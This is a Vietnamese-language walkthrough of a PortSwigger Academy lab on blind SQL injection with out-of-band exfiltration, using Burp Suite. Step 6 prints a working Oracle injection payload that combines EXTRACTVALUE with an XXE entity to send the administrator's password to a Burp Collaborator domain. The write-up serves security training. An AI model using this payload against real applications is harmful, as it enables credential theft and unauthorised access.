 > ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa của chúng tôi chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, sau đó di chuyển đến tab **Collaborator**. Ở đây sẽ hiển thị các thông tin được trao đổi giữa server của ứng dụng và BurpSuite Collaborator. Ở đây khi truy cập vào gói tin HTTP, ta có thể xem được phản hồi của server trả về mật khẩu của người dùng `administrator` khi xem mục **Request to Collaborator** (`zkva3bj82sf6v5exkb3l`).

![alt text](images/56.png)
